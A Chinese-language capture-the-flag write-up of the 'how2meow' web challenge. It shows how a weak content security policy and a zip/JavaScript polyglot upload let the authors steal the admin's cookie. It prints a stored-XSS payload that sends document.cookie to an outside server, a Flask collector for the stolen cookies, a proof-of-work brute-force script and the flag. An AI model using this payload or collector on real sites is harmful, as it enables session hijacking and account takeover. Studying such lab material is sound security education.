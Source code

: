 # how2meow

Web, 251/500 Points

Auther: **kaibro**

Writeup By: **yctseng1227**、**stavhaygn**

## Description

> 由於官方題目網站已關閉，以下只能簡述題目

從題目給的網站，我們有三種操作頁面大致如圖。

![](./arch.png)

## Solution

> 由於官方題目網站已關閉，以下只能拿競賽期間的截圖作為示意圖

### 初步操作

- Meow me

    隨意輸入字串，送出後只會吐出輸入的的字串。

- Meow Uploader

    上傳任何檔案，送出後只會吐出該檔案的副檔名。

    另外還有提供 `Meow src` 可以從source code觀察後台執行方式。

- Report to admin

    可以輸入URL以及PoW驗證，很明顯是拿flag的最後一步。


### 實際操作

從 `Meow me` 頁面按下`F12`可以發現亮了一大片紅字 =口=!!

![](./01.png)

拿去 [CSP-evaluator](https://csp-evaluator.withgoogle.com/) 發現該網站CSP機制不完全，可嵌入在該網站上傳的檔案。

從 `Meow Uploader` 可以點 `Meow src`(source code) 發現上傳只接受副檔名為 `.meow` 的檔案，接著對其檔案執行 `unzip` 指令，檢查解壓縮後為 `meow` 的檔案，是否開頭為 "edu-ctf" 字串，若檢查皆成功，將成功上傳檔案，否則上傳檔案失敗。

因此配合前面提到的 `Meow me` ，我們可以對剛檔案做一些壞壞的事^~^+


[m.meow]()
```
document.location='http://140.117.xxx.xxx:9487/?c=' + document.cookie;
/*
PK...
*/
```


以 `m.meow` 來說，除了原本壓縮檔的binary code，我們在開頭插入JS code，想藉由跳轉的方式，讓admin的cookies能夠自動傳到我們自己建的伺服器中，而該檔案上傳到官方伺服器後，會出現該檔案的位置（示意圖如下）。

![](./03.png)


既然有了檔案在官方伺服器的位置，那我們也能夠利用 `Meow me` 輸入JS code去觸發該檔案讓其執行`m.meow`內的JS code（示意圖如下）。

![](02.png)

作為Web初學者，下方也說明一下如何快速自建伺服器。

> 作業環境 Ubuntu 18.04 / Python 3.6

```shell
$ sudo pip3 install flask
$ sudo pip3 install flask_cors
$ python3 app.py
```

[app.py]()
```python
from flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
CORS(app)

@app.route('/')
def index():
    cookie = request.args.get('c', None)
    if cookie:
        return cookie
    return 'hELLo'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9487)
```

建好伺服器後，送出 `Meow me` 的時候應該多少會收到PHPSESSID，那就是有成功運作～

而 `Meow me` 頁面送出 URL request 就是我們最後要拿去 `Report to admin` 的XSS URL。

除此之外，還需要計算PoW，相關介紹可以參考另一篇 Writeup [Ponzi Scheme](../Ponzi Scheme/readme.md)，不過作法上可以直接Python用排列組合爆搜答案即可。

```python
#!/usr/bin/env python3
import itertools
import string
from hashlib import *
from pwn import *

cond = "kaibro"
#cond = r.recvuntil("'").decode('ascii').rstrip("'")
ans = ''
alphanumeric = string.ascii_uppercase + string.ascii_lowercase + string.digits
for s in itertools.product(alphanumeric, repeat=4):
    if md5(('%s%s'%(cond, ''.join(s))).encode('utf-8')).hexdigest().startswith('6b509'):
        ans = cond + ''.join(s)
        break

print(ans)
```

最後送出 `Report to admin` 結果如下，可以從自建的伺服器收到官方傳過來的 admin's cookies，稍微整理一下就是FLAG啦！


![](./04.png)


**`FLAG{u_r_m3ow_xss_m4ster}`**


---

延伸閱讀：
- [Content-Security-Policy](https://devco.re/blog/2014/04/08/security-issues-of-http-headers-2-content-security-policy/)
- [同源政策（Same Origin Policy）](https://medium.com/@jaydenlin/same-origin-policy-同源政策-一切安全的基礎-36432565a226)
